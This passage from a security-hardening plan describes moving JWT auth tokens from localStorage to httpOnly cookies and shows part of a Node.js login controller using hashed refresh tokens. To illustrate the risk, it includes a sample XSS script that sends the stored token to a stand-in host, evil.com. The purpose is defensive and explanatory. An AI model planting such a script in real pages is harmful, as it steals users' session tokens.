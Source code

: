 
# Phase 4: Security & Authentication Hardening (Week 4)
**Goal:** httpOnly cookies, XSS protection, SOC 2 compliance
**Effort:** 12-16 hours
**Impact:** Enterprise-grade security, no localStorage vulnerabilities
**Risk:** High (auth flow changes - requires careful testing)

## 4.1: Move JWT to httpOnly Cookies (Day 1-2 - 6 hours)

### Current Security Risk:
```javascript
// ❌ VULNERABLE: Token in localStorage
localStorage.setItem('crm_auth_token', token);

// Any XSS attack can steal it:
<script>
  fetch('https://evil.com/steal?token=' + localStorage.getItem('crm_auth_token'));
</script>
```

### Solution: httpOnly Cookies (XSS-proof)

```javascript
// File: backend/src/controllers/auth.controller.js

exports.login = async (req, res) => {
  const { email, password } = req.body;

  try {
    // Authenticate user
    const user = await authenticateUser(email, password);

    // ✅ Generate short-lived access token (15 min)
    const accessToken = jwt.sign(
      { id: user.id, email: user.email, role: user.role },
      process.env.JWT_SECRET,
      { expiresIn: '15m' }
    );

    // ✅ Generate long-lived refresh token (30 days)
    const refreshToken = crypto.randomBytes(64).toString('hex');
    const refreshTokenHash = crypto
      .createHash('sha256')
      .update(refreshToken)
      .digest('hex');

    // Store refresh token in database
    await pool.query(`
      INSERT INTO refresh_tokens (user_id, token_hash, expires_at)
      VALUES ($1, $2, NOW() + INTERVAL '30 days')
    `, [user.id, refreshTokenHash]);

    // ✅ Set httpOnly cookie (JavaScript CANNOT access this)
    res.cookie('refreshToken', refreshToken, {
      httpOnly: true,        // ✅ JavaScript cannot read
      secure: process.env.NODE_ENV === 'production',  // HTTPS only
      sameSite: 'strict',    // ✅ CSRF protection
      maxAge: 30 * 24 * 60 * 60 * 1000,  // 30 days
      path: '/'
    });

    // ✅ Return access token in response body (stored in memory only)
```